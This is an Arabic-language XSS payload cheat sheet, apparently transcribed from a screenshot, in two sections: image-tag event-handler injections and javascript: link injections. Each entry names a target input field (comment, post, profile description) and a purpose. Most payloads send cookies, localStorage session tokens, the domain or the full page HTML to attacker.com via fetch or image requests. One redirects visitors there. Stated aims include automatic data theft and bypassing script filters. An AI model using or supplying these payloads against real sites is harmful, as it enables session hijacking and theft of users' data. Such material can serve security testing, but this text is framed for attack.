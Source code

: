 #### ب. حقن باستخدام وسوم صور أو أحداث
{   #XSS_Idea_for_Img_tag /  #XSS--ALL--Event--Payload}
استخدام وسوم HTML مع أحداث JavaScript لتنفيذ الشيفرة.
- **الحقن**: `<img src=x onload="alert('XSS')">`
  - **الإدخال**: أدخل في حقل تعليق: `<img src=x onload="alert('XSS')">`
  - **كيف يعمل**: ينفذ تنبيهًا عند تحميل الصورة.
  - **متى يُستخدم؟**: لتأكيد الثغرة تلقائيًا.
- **الحقن**: `<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">`
  - **الإدخال**: أدخل في منشور: `<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند تحميل الصورة.
  - **متى يُستخدم؟**: لسرقة البيانات تلقائيًا.
- **الحقن**: `<img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `<img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">`
  - **كيف يعمل**: يرسل النطاق عند فشل تحميل الصورة.
  - **متى يُستخدم؟**: لتجاوز فلاتر `<script>`.
- **الحقن**: `<img src=x onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">`
  - **الإدخال**: أدخل في حقل تعليق: `<img src=x onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">`
  - **كيف يعمل**: يرسل رمز الجلسة عند تمرير المؤشر.
  - **متى يُستخدم؟**: لتتبع التفاعل.
- **الحقن**: `<img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">`
  - **الإدخال**: أدخل في منشور: `<img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">`
  - **كيف يعمل**: يرسل محتوى الصفحة عند تحميل الصورة.
  - **متى يُستخدم؟**: لاستخراج محتوى DOM.

#### ج. حقن باستخدام روابط JavaScript
{ #ideas_for_url   }
استخدام بروتوكول `javascript:` في روابط أو سمات.
- **الحقن**: `<a href="javascript:alert('XSS')">Click</a>`
  - **الإدخال**: أدخل في حقل تعليق: `<a href="javascript:alert('XSS')">Click</a>`
  - **كيف يعمل**: ينفذ تنبيهًا عند النقر على الرابط.
  - **متى يُستخدم؟**: لتأكيد الثغرة عند التفاعل.
- **الحقن**: `<a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>`
  - **الإدخال**: أدخل في منشور: `<a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند النقر.
  - **متى يُستخدم؟**: لسرقة البيانات عند التفاعل.
- **الحقن**: `<a href="javascript:document.location='http://attacker.com'">Click</a>`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `<a href="javascript:document.location='http://attacker.com'">Click</a>`
  - **كيف يعمل**: يعيد توجيه المستخدم عند النقر.
  - **متى يُستخدم؟**: لإعادة التوجيه.
- **الحقن**: `<a href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a>`
  - **الإدخال**: أدخل في حقل تعليق: `<a href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a>`
  - **كيف يعمل**: يرسل النطاق عند النقر.
  - **متى يُستخدم؟**: لتأكيد سياق التنفيذ.
- **الحقن**: `<a href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a>`
  - **الإدخال**: أدخل في منشور: `<a href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a>`
  - **كيف يعمل**: يرسل رمز الجلسة عند النقر.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.
